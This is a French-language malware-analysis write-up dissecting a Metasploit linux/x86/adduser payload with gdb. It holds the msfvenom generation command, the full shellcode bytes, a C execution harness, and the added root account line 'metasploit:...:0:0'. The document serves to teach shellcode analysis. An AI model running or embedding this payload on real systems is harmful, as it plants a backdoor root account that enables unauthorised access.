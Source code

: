 # Analyse de trois payload issus générés via metasploit #

Métasploit propose plusieurs payload présentés ci-dessous :

<img src = "6_01.png">


Nous allons procéder à l'analyse des trois premiers.

## Premier payload, adduser: ##

Nous générons le code avec la commande :
```c
msfvenom -a x86 --platform linux -p linux/x86/adduser -f c
```
```c
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
Final size of c file: 433 bytes
unsigned char buf[] = 
"\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"
"\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"
"\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x28\x00\x00\x00\x6d\x65"
"\x74\x61\x73\x70\x6c\x6f\x69\x74\x3a\x41\x7a\x2f\x64\x49\x73"
"\x6a\x34\x70\x34\x49\x52\x63\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a"
"\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58"
"\xcd\x80\x6a\x01\x58\xcd\x80";
```

Le shellcode est copié dans un fichier shellcode.c afin de pouvoir procéder à l'analyse.

```c
#include <stdio.h>
#include <string.h>


unsigned char code[] = \
"Pur your shellcode here";

int main()
{

        printf("taille %lu\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

        return 0;

}
```

Puis compilé :

```c
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Nous executons le programme et observons les modifications :

```c
./shellcode
more /etc/passwd | grep metasploit
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

Il y a effectivememnt un utilisateur qui vient d'être ajouté.


On lance gdb et nous voyons qu'un call vers la fonction prinf de libc est executé.
La valeur 40 et la chaine taille\n sont également posées sur la pile.

```c
   0x8048419 <main+14>:	sub    esp,0x14
   0x804841c <main+17>:	sub    esp,0x8
   0x804841f <main+20>:	push   0x28
=> 0x8048421 <main+22>:	push   0x8048562
   0x8048426 <main+27>:	call   0x80482e0 <printf@plt>
   0x804842b <main+32>:	add    esp,0x10
   0x804842e <main+35>:	mov    DWORD PTR [ebp-0xc],0x8048500
   0x8048435 <main+42>:	mov    eax,DWORD PTR [ebp-0xc]

   gdb-peda$ x/s 0x8048562
   0x8048562:	"taille %d\n"
```



A l'adresse 0x804842e l'adresse de la fonction à étudier(0x8048500) est mise sur la pile.

```c
=> 0x804842e <main+35>:	mov    DWORD PTR [ebp-0xc],0x8048500
```

En observant un peu en mémoire à l'adresse 0x804852b, nous trouvons la chaine qui est présente dans le fichier /etc/passwd.

```c
metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh
```

A l'adresse 0x8048438, la commande call eax est l'appel qui va nous interesser, il est détaillé ci-dessous.

```asm
    
    ;setreuid syscall (Fixe les ID d'utilisateur effectif et réel du processus appelant)
    ;setreuid(0)

=> 0x08048500 <+0>:	xor    ecx,ecx
   0x08048502 <+2>:	mov    ebx,ecx
   0x08048504 <+4>:	push   0x46
   0x08048506 <+6>:	pop    eax			
   0x08048507 <+7>:	int    0x80                 

    ;open syscall (open file /etc/passwd)

   0x08048509 <+9>:	    push   0x5			    
   0x0804850b <+11>:	pop    eax
   0x0804850c <+12>:	xor    ecx,ecx
   0x0804850e <+14>:	push   ecx
   0x0804850f <+15>:	push   0x64777373		;dwss
   0x08048514 <+20>:	push   0x61702f2f		;ap//
   0x08048519 <+25>:	push   0x6374652f		;cte/
   0x0804851e <+30>:	mov    ebx,esp
   0x08048520 <+32>:	inc    ecx              
   0x08048521 <+33>:	mov    ch,0x4			; ecx = 0x401 = s_ixoth and s_irusr (read and execute)
   0x08048523 <+35>:	int    0x80			    
   0x08048525 <+37>:	xchg   ebx,eax

    ; call 0x8048553 with arg[0]: 0x6374652f ('/etc')
    ; arg[1]: 0x61702f2f ('//pa')
    ; arg[2]: 0x64777373 ('sswd')
    ; arg[3]: 0x0 


   0x08048526 <+38>:	call   0x8048553 <code+83>

    ; Copie le contenu de ecx dans le fichier /etc/passwd

    [----------------------------------registers-----------------------------------]
        EAX: 0x4        ; write syscall
        EBX: 0xfffffff3 ; pointeur vers le fichier /etc/passwd
        ECX: 0x804852b ("metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀") ; chaîne à copier
        EDX: 0x28 ('(') ;taille de la chaine à copier
        ESI: 0xf7fb7000 --> 0x1afdb0 
        EDI: 0xf7fb7000 --> 0x1afdb0 
        EBP: 0xffffcf78 --> 0x0 
        ESP: 0xffffcf4c ("/etc//passwd")
        EIP: 0x804855a --> 0x16a80cd
        EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
        [-------------------------------------code-------------------------------------]
        0x8048556 <code+86>:	cld    
        0x8048557 <code+87>:	push   0x4
        0x8048559 <code+89>:	pop    eax
        => 0x804855a <code+90>:	int    0x80
        0x804855c <code+92>:	push   0x1
        0x804855e <code+94>:	pop    eax
        0x804855f <code+95>:	int    0x80
        0x8048561 <code+97>:	add    BYTE PTR [ecx+eiz*2+0x69],dh
    [------------------------------------stack-------------------------------------]

    ; Le reste du code n'est pas exécuté
    
   0x0804852b <+43>:	ins    DWORD PTR es:[edi],dx
   0x0804852c <+44>:	gs je  0x8048590
   0x0804852f <+47>:	jae    0x80485a1
   0x08048531 <+49>:	ins    BYTE PTR es:[edi],dx
   0x08048532 <+50>:	outs   dx,DWORD PTR ds:[esi]
   0x08048533 <+51>:	imul   esi,DWORD PTR [edx+edi*1+0x41],0x49642f7a
   0x0804853b <+59>:	jae    0x80485a7
   0x0804853d <+61>:	xor    al,0x70
   0x0804853f <+63>:	xor    al,0x49
   0x08048541 <+65>:	push   edx
   0x08048542 <+66>:	arpl   WORD PTR [edx],di
   0x08048544 <+68>:	xor    BYTE PTR [edx],bh
   0x08048546 <+70>:	xor    BYTE PTR [edx],bh
   0x08048548 <+72>:	cmp    ch,BYTE PTR [edi]
   0x0804854a <+74>:	cmp    ch,BYTE PTR [edi]
   0x0804854c <+76>:	bound  ebp,QWORD PTR [ecx+0x6e]
   0x0804854f <+79>:	das    
   0x08048550 <+80>:	jae    0x80485ba
   0x08048552 <+82>:	or     bl,BYTE PTR [ecx-0x75]
   0x08048555 <+85>:	push   ecx
   0x08048556 <+86>:	cld   

   ; write

   0x08048557 <+87>:	push   0x4
   0x08048559 <+89>:	pop    eax
   0x0804855a <+90>:	int    0x80			

    ; exit 

   0x0804855c <+92>:	push   0x1
   0x0804855e <+94>:	pop    eax
   0x0804855f <+95>:	int    0x80			
```






